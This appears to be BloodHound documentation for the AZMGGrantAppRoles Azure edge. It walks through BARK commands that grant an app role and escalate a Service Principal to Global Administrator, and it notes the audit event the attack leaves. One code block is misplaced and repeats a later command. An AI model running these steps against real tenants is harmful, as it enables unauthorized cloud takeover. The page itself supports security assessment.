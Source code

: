 ---
title: AZMGGrantAppRoles
description: "This edge is created during post-processing."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


It is created against AzureAD tenant objects when a Service Principal has one of the following MS Graph app role assignments:

* AppRoleAssignment.ReadWrite.All
* RoleManagement.ReadWrite.Directory

## Abuse Info

With the ability to grant arbitrary app roles, you can grant the RoleManagement.ReadWrite.Directory app role to a Service Principal you already control, and then promote it or another principal to Global Administrator.

These functions require you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to grant app roles. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Use BARK’s Get-AllAzureADServicePrincipals to collect all Service Principal objects in the tenant:

```bash
$SPs | ?{$_.appId -Like "00000003-0000-0000-c000-000000000000"} | Select id
```
Next, find the MS Graph Service Principal’s ID. You can do this by piping $SPs to Where-Object, finding objects where the appId value matches the universal ID for the MS Graph Service Principal, which is 00000003-0000-0000-c000-000000000000:

```bash
$SPs | ?{$_.appId -Like "00000003-0000-0000-c000-000000000000"} | Select id
```

The output will be the object ID of the MS Graph Service Principal. Take that ID and use it as the “ResourceID” argument for BARK’s New-AppRoleAssignment function. The AppRoleID of ‘9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8’ is the universal ID for RoleManagement.ReadWrite.Directory. The SPObjectId is the object ID of the Service Principal you want to grant this app role to:

```bash
New-AppRoleAssignment `
    -SPObjectId "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
    -AppRoleID "9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8" `
    -ResourceID "9858020a-4c00-4399-9ae4-e7897a8333fa" `
    -Token $MGToken
```
If successful, the output of this command will show you the App Role assignment ID. Now that your Service Principal has the RoleManagement.ReadWrite.Directory MS Graph app role, you can promote the Service Principal to Global Administrator using BARK’s New-AzureADRoleAssignment.

```bash
New-AzureADRoleAssignment `
    -PrincipalID "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
    -RoleDefinitionId "62e90394-69f5-4237-9190-012177145e10" `
    -Token $MGToken
```
If successful, the output will include the principal ID, the role ID, and a unique ID for the role assignment.

## Opsec Considerations

When you assign an app role to a Service Principal, the Azure Audit logs will create an event called “Add app role assignment to service principal”. This event describes who made the change, what the target service principal was, and what app role assignment was granted.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
